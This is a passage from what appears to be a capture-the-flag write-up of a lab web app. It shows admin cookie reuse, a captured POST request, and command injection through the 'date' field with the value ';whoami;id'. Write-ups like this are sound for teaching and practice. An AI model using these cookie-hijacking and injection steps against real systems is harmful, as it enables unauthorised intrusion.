 We can use this cookie to replace our existing cookie in Firefox. Now, when we navigate to `/dashboard`, we are greeted with the following page.

![dashboard](./img/dashboard.png)

Clicking on 'Generating Report' button, only outputs that the "System are up and runing". Intercepting the request in Burp Suite shows the following request.

```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 15
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: keep-alive

date=2023-09-15
```

We can try to see if command injection by inserting `;whoami;id` in the body and sure enough, we get back the command result.
